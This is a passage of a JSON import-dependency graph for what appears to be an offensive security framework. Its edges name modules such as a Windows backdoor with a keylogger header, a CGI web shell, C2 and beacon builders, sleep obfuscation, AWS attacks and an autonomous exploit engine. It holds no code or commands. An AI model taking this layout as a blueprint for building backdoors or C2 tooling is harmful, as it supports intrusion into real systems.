"modules/auto_purple.py", "target": "re"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/auto_purple.py", "target": "subprocess"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/auto_purple.py", "target": "sys"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/auto_purple.py", "target": "time"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/auto_purple.py", "target": "abc"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/auto_purple.py", "target": "dataclasses"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/auto_purple.py", "target": "datetime"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/auto_purple.py", "target": "pathlib"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/auto_purple.py", "target": "typing"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/auto_purple.py", "target": "fcntl"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/auto_purple.py", "target": "pty"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/auto_purple.py", "target": "select"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/auto_purple.py", "target": "struct"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/auto_purple.py", "target": "termios"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/auto_purple.py", "target": "argparse"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/auto_purple.py", "target": "sys"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/auto_purple.py", "target": "modules.detection_oracle"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/auto_purple.py", "target": "modules.detection_oracle"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/auto_purple.py", "target": "hashlib"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/auto_purple.py", "target": "core.process"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/auto_purple.py", "target": "sys"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/auto_purple.py", "target": "lazyownbt.detection"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/auto_purple.py", "target": "core.config"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/auto_registry.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/auto_registry.py", "target": "contextlib"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/auto_registry.py", "target": "io"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/auto_registry.py", "target": "os"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/auto_registry.py", "target": "queue"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/auto_registry.py", "target": "shlex"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/auto_registry.py", "target": "shutil"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/auto_registry.py", "target": "signal"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/auto_registry.py", "target": "subprocess"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/auto_registry.py", "target": "threading"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/auto_registry.py", "target": "dataclasses"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/auto_registry.py", "target": "types"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/auto_registry.py", "target": "pathlib"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/auto_registry.py", "target": "re"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/auto_registry.py", "target": "re"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/auto_registry.py", "target": "re"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/auto_registry.py", "target": "json"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/auto_registry.py", "target": "modules.lazy_cli_bridge"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/auto_registry.py", "target": "modules.orchestrator_config"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/auto_registry.py", "target": "modules.lazy_cli_bridge"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/auto_registry.py", "target": "modules.lazy_cli_bridge"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/auto_registry.py", "target": "modules.lazy_cli_bridge"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/auto_registry.py", "target": "modules.orchestrator_config"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/auto_registry.py", "target": "modules.lazy_installer"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/auto_registry.py", "target": "modules.lazy_orchestrator_feedback"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/auto_registry.py", "target": "modules.command_executor"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/auto_registry.py", "target": "re"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/autonomous_exploit_engine.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/autonomous_exploit_engine.py", "target": "json"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/autonomous_exploit_engine.py", "target": "random"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/autonomous_exploit_engine.py", "target": "re"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/autonomous_exploit_engine.py", "target": "subprocess"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/autonomous_exploit_engine.py", "target": "threading"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/autonomous_exploit_engine.py", "target": "time"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/autonomous_exploit_engine.py", "target": "dataclasses"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/autonomous_exploit_engine.py", "target": "pathlib"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/autonomous_exploit_engine.py", "target": "typing"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/autonomous_exploit_engine.py", "target": "modules.db"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/autonomous_exploit_engine.py", "target": "core.defaults"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/autonomous_exploit_engine.py", "target": "uuid"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/autonomous_exploit_engine.py", "target": "xml.etree.ElementTree"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/autonomous_exploit_engine.py", "target": "modules.auto_pivot"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/autonomous_exploit_engine.py", "target": "core.safe_exec"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/autonomous_exploit_engine.py", "target": "core.safe_exec"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/autonomous_exploit_engine.py", "target": "core.safe_exec"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/autonomous_exploit_engine.py", "target": "core.safe_exec"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/autonomous_exploit_engine.py", "target": "core.safe_exec"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/aws_attacks.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/aws_attacks.py", "target": "dataclasses"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/aws_attacks.py", "target": "typing"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/aws_attacks.py", "target": "boto3"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/backdoor/backdoor.c", "target": "stdio.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/backdoor/backdoor.c", "target": "stdlib.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/backdoor/backdoor.c", "target": "unistd.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/backdoor/backdoor.c", "target": "winsock2.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/backdoor/backdoor.c", "target": "windows.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/backdoor/backdoor.c", "target": "winuser.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/backdoor/backdoor.c", "target": "wininet.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/backdoor/backdoor.c", "target": "windowsx.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/backdoor/backdoor.c", "target": "string.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/backdoor/backdoor.c", "target": "sys/stat.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/backdoor/backdoor.c", "target": "sys/types.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/backdoor/backdoor.c", "target": "keylogger.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/backdoor/server.c", "target": "stdio.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/backdoor/server.c", "target": "sys/types.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/backdoor/server.c", "target": "sys/socket.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/backdoor/server.c", "target": "netinet/in.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/backdoor/server.c", "target": "stdlib.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/backdoor/server.c", "target": "string.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/backdoor/server.c", "target": "unistd.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/backdoor/server.c", "target": "arpa/inet.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/beacon_config_builder.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/beacon_config_builder.py", "target": "logging"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/beacon_config_builder.py", "target": "dataclasses"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/beacon_config_builder.py", "target": "typing"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/beacon_config_builder.py", "target": "json"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/beacon_config_builder.py", "target": "modules.c2_profile_engine"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/beacon_config_builder.py", "target": "modules.sleep_obfuscation"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/beacon_config_builder.py", "target": "modules.socks_proxy"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/beacon_config_builder.py", "target": "core.config"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/beacon_history.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/beacon_history.py", "target": "json"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/beacon_history.py", "target": "logging"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/beacon_history.py", "target": "dataclasses"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/beacon_history.py", "target": "pathlib"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/beacon_history.py", "target": "typing"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/bin2img.py", "target": "sys"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/bin2img.py", "target": "numpy"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/bin2img.py", "target": "PIL"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/bitm_engine.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/bitm_engine.py", "target": "json"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/bitm_engine.py", "target": "os"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/bitm_engine.py", "target": "shutil"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/bitm_engine.py", "target": "signal"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/bitm_engine.py", "target": "subprocess"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/bitm_engine.py", "target": "time"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/bitm_engine.py", "target": "dataclasses"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/bitm_engine.py", "target": "pathlib"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/bitm_engine.py", "target": "typing"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/bof_registry.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/bof_registry.py", "target": "hashlib"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/bof_registry.py", "target": "json"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/bof_registry.py", "target": "logging"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/bof_registry.py", "target": "shutil"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/bof_registry.py", "target": "dataclasses"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/bof_registry.py", "target": "datetime"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/bof_registry.py", "target": "enum"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/bof_registry.py", "target": "pathlib"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/bof_registry.py", "target": "typing"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/c2_builder.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/c2_builder.py", "target": "base64"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/c2_builder.py", "target": "json"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/c2_builder.py", "target": "os"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/c2_builder.py", "target": "re"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/c2_builder.py", "target": "shutil"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/c2_builder.py", "target": "subprocess"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/c2_builder.py", "target": "tempfile"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/c2_builder.py", "target": "time"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/c2_builder.py", "target": "collections.abc"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/c2_builder.py", "target": "contextlib"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/c2_builder.py", "target": "dataclasses"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/c2_builder.py", "target": "datetime"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/c2_builder.py", "target": "pathlib"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/c2_builder.py", "target": "typing"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/c2_builder.py", "target": "core.validators"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/c2_builder.py", "target": "modules.metrics"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/c2_builder.py", "target": "utils"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/c2_builder.py", "target": "re"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/c2_messaging_base.py", "target": "time"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/c2_messaging_base.py", "target": "typing"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/c2_profile.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/c2_profile.py", "target": "logging"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/c2_profile.py", "target": "random"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/c2_profile.py", "target": "uuid"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/c2_profile.py", "target": "dataclasses"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/c2_profile.py", "target": "pathlib"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/c2_profile.py", "target": "typing"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/c2_profile.py", "target": "argparse"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/c2_profile.py", "target": "json"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/c2_profile.py", "target": "logging"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/c2_profile.py", "target": "yaml"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/c2_profile.py", "target": "yaml"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/c2_profile_engine.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/c2_profile_engine.py", "target": "hashlib"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/c2_profile_engine.py", "target": "logging"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/c2_profile_engine.py", "target": "random"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/c2_profile_engine.py", "target": "re"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/c2_profile_engine.py", "target": "time"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/c2_profile_engine.py", "target": "dataclasses"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/c2_profile_engine.py", "target": "enum"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/c2_profile_engine.py", "target": "pathlib"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/c2_profile_engine.py", "target": "typing"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/c2_profile_engine.py", "target": "core.config"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/c2_profile_engine.py", "target": "base64"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/c2_profile_engine.py", "target": "base64"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/cgi-bin/lazywebshell.py", "target": "cgi"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/cgi-bin/lazywebshell.py", "target": "subprocess"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/cicd_enumerator.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/cicd_enumerator.py", "target": "json"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/cicd_enumerator.py", "target": "os"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/cicd_enumerator.py", "target": "re"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/cicd_enumerator.py", "target": "dataclasses"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/cli_auth.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/cli_auth.py", "target": "hmac"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/cli_auth.py", "target": "json"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/cli_auth.py", "target": "os"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/cli_auth.py", "target": "secrets"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/cli_auth.py", "target": "time"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/cli_auth.py", "target": "pathlib"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/cli_auth.py", "target": "typing"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/cli_auth.py", "target": "core.config"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/cli_auth.py", "target": "modules.lazy_rbac"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/cli_auth.py", "target": "modules.lazy_rbac"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/cli_auth.py", "target": "werkzeug.security"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/cli_auth.py", "target": "modules.lazy_rbac"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/cli_auth.py", "target": "modules.lazy_rbac"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/cli_auth.py", "target": "werkzeug.security"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/cli_auth.py", "target": "cli.engagement_hooks"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/cloud_enum.py", "target": "json"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/cloud_enum.py", "target": "subprocess"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/cloud_enum.py", "target": "typing"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/cloud_enum.py", "target": "requests"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/collab_bp.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/collab_bp.py", "target": "json"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/collab_bp.py", "target": "logging"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/collab_bp.py", "target": "queue"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/collab_bp.py", "target": "threading"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/collab_bp.py", "target": "time"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/collab_bp.py", "target": "uuid"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/collab_bp.py", "target": "dataclasses"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/collab_bp.py", "target": "functools"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/collab_bp.py", "target": "flask"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/collab_bp.py", "target": "modules.lazy_rbac"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/collab_bp.py", "target": "modules.lazy_rbac"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/collab_bp.py", "target": "modules.lazy_rbac"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/collab_bp.py", "target": "flask_login"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/collab_bp.py", "target": "flask"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/collab_bp.py", "target": "flask"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/colors.py", "target": "random"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/colors.py", "target": "bs4"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/command_executor.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/command_executor.py", "target": "logging"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/command_executor.py", "target": "os"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/command_executor.py", "target": "select"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/command_executor.py", "target": "shlex"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/command_executor.py", "target": "signal"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/command_executor.py", "target": "subprocess"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/command_executor.py", "target": "sys"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/command_executor.py", "target": "threading"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/command_executor.py", "target": "time"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/command_executor.py", "target": "collections.abc"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/command_executor.py", "target": "dataclasses"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/command_executor.py", "target": "pathlib"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/command_executor.py", "target": "core.safe_exec"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/command_executor.py", "target": "shlex"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/command_executor.py", "target": "shlex"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/command_executor.py", "target": "modules.event_bus"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/command_executor.py", "target": "modules.auto_registry"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/command_executor.py", "target": "modules.auto_registry"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/compliance.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/compliance.py", "target": "hashlib"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/compliance.py", "target": "json"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/compliance.py", "target": "logging"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/compliance.py", "target": "time"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/compliance.py", "target": "dataclasses"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/compliance.py", "target": "datetime"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/compliance.py", "target": "pathlib"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/compliance.py", "target": "typing"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/compliance.py", "target": "fpdf"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/conditional_hooks.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/conditional_hooks.py", "target": "json"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/conditional_hooks.py", "target": "logging"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/conditional_hooks.py", "target": "shlex"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/conditional_hooks.py", "target": "threading"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/conditional_hooks.py", "target": "time"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/conditional_hooks.py", "target": "collections.abc"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/conditional_hooks.py", "target": "dataclasses"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/conditional_hooks.py", "target": "pathlib"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/conditional_hooks.py", "target": "typing"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/conditional_hooks.py", "target": "core.safe_exec"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/conditional_hooks.py", "target": "modules.credential_reuse"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/conditional_hooks.py", "target": "modules.state_manager"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/config_store.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/config_store.py", "target": "copy"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/config_store.py", "target": "logging"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/config_store.py", "target": "threading"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/config_store.py", "target": "pathlib"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/config_store.py", "target": "typing"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/config_store.py", "target": "core.config"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/credential_reuse.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/credential_reuse.py", "target": "ipaddress"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/credential_reuse.py", "target": "json"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/credential_reuse.py", "target": "logging"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/credential_reuse.py", "target": "dataclasses"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/credential_reuse.py", "target": "pathlib"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/credential_reuse.py", "target": "typing"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/cross_cloud.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/cross_cloud.py", "target": "dataclasses"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/cross_cloud.py", "target": "typing"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/custom_tools.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/custom_tools.py", "target": "json"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/custom_tools.py", "target": "re"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/custom_tools.py", "target": "shlex"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/custom_tools.py", "target": "urllib.parse"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/custom_tools.py", "target": "urllib.request"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/custom_tools.py", "target": "pathlib"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/custom_tools.py", "target": "modules.lazy_loop"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/custom_tools.py", "target": "modules.auto_registry"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/custom_tools.py", "target": "modules.notify"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/cve_matcher.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/cve_matcher.py", "target": "hashlib"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/cve_matcher.py", "target": "json"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/cve_matcher.py", "target": "logging"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/cve_matcher.py", "target": "os"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/cve_matcher.py", "target": "time"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/cve_matcher.py", "target": "urllib.error"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/cve_matcher.py", "target": "urllib.parse"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/cve_matcher.py", "target": "urllib.request"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "modules/cve_matcher.py", "target": "dataclasses"}, {"confidence": 